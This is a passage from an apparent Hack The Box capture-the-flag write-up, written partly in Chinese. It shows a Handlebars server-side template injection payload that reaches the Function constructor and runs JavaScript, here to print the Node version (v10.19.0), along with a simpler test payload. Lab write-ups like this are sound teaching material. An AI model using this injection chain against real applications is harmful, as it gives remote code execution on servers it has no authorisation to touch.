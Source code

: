 ```jsx
```

![Untitled](HTB%20writeu%20673ee/Untitled%2042.png)

```jsx
{{this.push "return 7*7"}}
```

![Untitled](HTB%20writeu%20673ee/Untitled%2043.png)

不過我們可以先試著執行看看其他內容，例如順便查一下 node version

```jsx
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.version"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

![Untitled](HTB%20writeu%20673ee/Untitled%2044.png)

```jsx
We will contact you at:                e       2       [object Object]                function Function() { [native code] }         2         [object Object]                                 v10.19.0
```
